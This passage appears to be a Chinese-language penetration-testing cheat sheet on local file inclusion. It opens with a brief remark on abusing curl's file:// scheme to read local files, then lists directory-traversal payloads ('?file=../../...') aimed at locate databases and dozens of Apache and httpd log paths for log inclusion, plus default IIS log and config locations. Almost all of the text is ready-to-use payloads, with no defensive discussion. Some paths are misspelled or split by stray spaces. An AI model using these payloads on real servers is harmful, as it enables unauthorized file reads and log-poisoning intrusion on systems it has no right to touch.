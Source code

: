 当我们输入的file://参数被带入curl中执行时，原本的远程URL访问会被重定向到本地磁盘上，从而达到越权访问文件的目的

## 本地文件包含常见利用方式

### 目录遍历

```
# linux 这两个文件存储着所有文件的路径，需要root权限
?file=../../../../../../../var/lib/mlocate/mlocate.db
?file=../../../../../../../var/lib/locate.db
```

### 包含日志

```
?ile=../../../../../../../../var/log/apache/error.log

# apache
../apache/logs/error.log
../apache/logs/access.log
../../apache/logs/error.log
../../apache/logs/access.log
../../../apache/logs/error.log
../../../apache/logs/access.log
../../../../../../../etc/httpd/logs/acces_log
../../../../../../../etc/httpd/logs/acces.log
../../../../../../../etc/httpd/logs/error.log
../../../../../../../etc/httpd/logs/error_log
../../../../../../../var/www/logs/access_log
../../../../../../../var/www/logs/access.log
../../../../../../../usr/local/apache/logs/access_log
../../../../../../../usr/local/apache/logs/access.log
../../../../../../../var/log/apache/access_log
../../../../../../../var/log/apache2/access_log
../../../../../../../var/log/apache/access.log
../../../../../../../var/log/apache2/access.log
../../../../../../../var/log/access_log
../../../../../../../var/log/access.log
../../../../../../../var/www/logs/error_log
../../../../../../../var/www/logs/error.log
../../../../../../../usr/local/apache/logs/error_l og
../../../../../../../usr/local/apache/logs/error.l og
../../../../../../../var/log/apache/error_log
../../../../../../../var/log/apache2/error_log
../../../../../../../var/log/apache/error.log
../../../../../../../var/log/apache2/error.log
../../../../../../../var/log/error_log
/etc/httpd/logs/access_log
/var/log/httpd/access_log

# 读配置文件找日志路径
/etc/httpd/conf/httpd.conf
/etc/init.d/httpd

#=============
# windows
#=============
# window 2003+iis6.0 日志文件默认放在
C:\WINDOWS\system32\Logfiles
配置文件默认在
C:\Windows\system32\inetsrv\metabase.xml

# iis 7日志文件默认在
C:\inetpub\logs\LogFiles
```